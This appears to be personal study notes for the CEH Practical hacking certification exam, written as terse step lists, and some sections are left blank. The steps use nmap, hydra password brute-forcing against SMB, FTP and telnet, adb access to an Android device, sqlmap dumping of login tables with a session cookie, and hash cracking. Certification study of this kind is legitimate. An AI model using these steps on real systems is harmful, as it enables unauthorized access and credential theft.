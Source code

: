 # CEH PRACTICAL
# 1 FQDN
* nmap -p389 -sV (subnet) -Pn
           OR
* nmap -A <subnet> -Pn

# 2 WAMP SERVER
* nmap -A -sV -p 80,8080,443 (subnet)

# 3 SMB 
* nmap -p 445 (subnet)
* hydra -l Henry -P (password.txt file on desktop) (ip) smb
* smbclient -L ip -p 1445 -U Henry
* smbclient -L //ip/Home -p 1445 -U Henry
* get (file name) password same as Henry
* if file contains hash decode it

# 4 Android
* namp -p 5555 (subnet) -Pn
* adb connect (ip):5555
* adb shell
* ls (find the folder scan)
* after finding scan coppy rhe directory
* exit
* adb pull (paste the directory)(be a root user)
* cd Scan
* ls
* ent (file1)
* ent (file2)
* ent (file3)
* sha384sum (file with highest ent)

# 5 SEVERITY
* nmap -Pn --script vuln (ip)
* CVE check on google nvd.nist.gov

# 6 REMOTE LOGIN SENSITIVE FILE
* nmamp (subnet) -Pn
* ( find ip with FTP or Telnet)
* hydra -L (username.txt) -P (password.txt) (ip) telnet
                          OR
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* telnet (ip)
     OR
* ftp (ip)
* ls
* get NetworkPass.txt

# 7  STEGNOGRAPHY
* login into given machine
* open openstego
* extract data
* output on desktop
* password "imagination"

# 8 FTP
* nmamp (subnet) -Pn
* hydra -L (username.txt) -P (password.txt) (ip) ftp
* ftp (ip)
* ls
* get Credential.txt
* cat Credential.txt

# 9 PRIVILEGE ESCALATION
* 

# 10 ENTRYPOINT ADRDRESS
* login into ggiven machine
* open DIE (detect it easy)
* open the given file in DIE
* File Info option

# 11 DDOS 
* open the file in wireshark
* statistics option
* IP v4 statistics
* Source and Destination
* tcp.flags.syn == 1 and tcp.flags.ack == 0

# 12 SQL injection PASSWORD
* login in website
* view profile tab and note the url
* inspect
* console type (document.cookie)
* terminal
* be a root user
* sqlmap -u "(url)" --cookie="(cookie val)" --dbbs
* yes for all
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) --tables
* sqlmap -u "(url)" --cookie="(cookie val)" -D (website name) -T (longin table) --dump

# 13 

# 14

# 15

# 16 HASH,DVWA
* login with credentials
* go to file and download
* open the file coppy hash and paste in hashes.com or crackstation.com

# 17 
